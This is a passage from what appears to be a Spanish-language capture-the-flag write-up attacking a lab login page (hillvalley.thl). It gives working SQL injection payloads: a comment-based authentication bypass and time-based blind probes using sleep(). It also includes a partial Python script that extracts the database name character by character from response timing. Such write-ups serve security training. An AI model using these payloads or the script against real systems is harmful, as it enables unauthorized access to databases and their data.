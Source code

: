 Ahora si comentamos el resto de la query vemos que funciona
```bash
username=admin'-- -&password=admin
```

Ahora lo que tenemos que es determinar es si es vulnerable a inyecciones basadas en timepo
```bash
admin' or sleep(10)-- -
```

Ahora lo que tenemos que determinar es la longitud del nombre de la base de datos para saber cuantas veces tenemos que iterar en nuestro script en python
Desde la peticion que teniamos interceptada, logramos determinar que la longitud de el nombre de la base de datos es de 10 caracteres
```bash
username=admin' or if(length(database())>=10, sleep(5), 0)-- -&password=admin
```

Ahora determinamos el primer caracter del nombre de la base de datos, **h**
```bash
username=admin' or if(substring(database(),1,1)='h', sleep(5), 0)-- -&password=admin
```

### Ejecucion del Ataque
Una ves que determinamos que es vulnerable a inyecciones basadas en tiempo, Procedemos desarrollar el siguiente script en python para dumpear la base de datos
**sqli.py**
```python
#!/usr/bin/env python3

# Librerias
import sys
import os
import signal
import requests
import string
from termcolor import colored as c 
import time

# Funcioes personalizadas
def ctrl_c(sig, frame):
    print(c(f"\n[!] Saliendo...", "red"))
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Variables globales
characters = string.ascii_letters + string.digits + '_, '
main_url = "http://hillvalley.thl/index.php" # Target

def makeSQL():
    print(c("\n[*] Iniciando Ataque...\n", "green"))
    data = "" # Aqui se almacena la data.

    for position in range(1, 11):
        for character in characters:
            
            time_start = time.time()
            sql_payload = f"admin' or if(substring(database(),{position},1)='{character}', sleep(1), 0)-- -&password=admin"
            r = requests.post(main_url, data={"username": sql_payload, "password": "admin"})
            time_end = time.time()

            if time_end - time_start > 1:
                data += character
                break
```